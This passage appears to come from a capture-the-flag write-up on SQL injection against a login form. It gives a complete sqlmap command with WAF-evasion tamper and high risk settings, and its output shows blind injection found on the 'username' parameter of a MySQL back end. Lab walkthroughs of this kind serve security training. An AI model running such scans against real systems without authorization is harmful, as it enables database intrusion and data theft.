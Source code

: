 ```
    </div>
</body>
</html>
</RESPONSE>
```

Okay.. that tells us that `username` and `password` are the variables being
passed to the server.

### SQLMAP - DISCOVERY

Let's use sql map to see if we can use an SQL injection exploit to discover
more about our target..

```
$ sqlmap -u http://88.198.233.174:35067 --method POST --data="username=blah&password=blah" --dbs --batch --tamper=space2comment --level 5 --risk 3
```

```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.11#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 15:08:13

[15:08:13] [INFO] loading tamper script 'space2comment'
[15:08:13] [INFO] testing connection to the target URL
[15:08:14] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS/IDS
[15:08:14] [INFO] testing if the target URL is stable
[15:08:14] [INFO] target URL is stable
[15:08:14] [INFO] testing if POST parameter 'username' is dynamic
[15:08:15] [WARNING] POST parameter 'username' does not appear to be dynamic
[15:08:15] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[15:08:15] [INFO] testing for SQL injection on POST parameter 'username'
[15:08:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:08:36] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[15:08:54] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[15:09:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Generic comment)'
[15:09:31] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment)'
[15:09:46] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment) (NOT)'
[15:10:02] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[15:10:13] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
sqlmap got a 302 redirect to 'http://88.198.233.174:35067/panel.php?info=home'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N

[15:10:15] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="Is")
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[15:10:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:10:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:10:19] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
```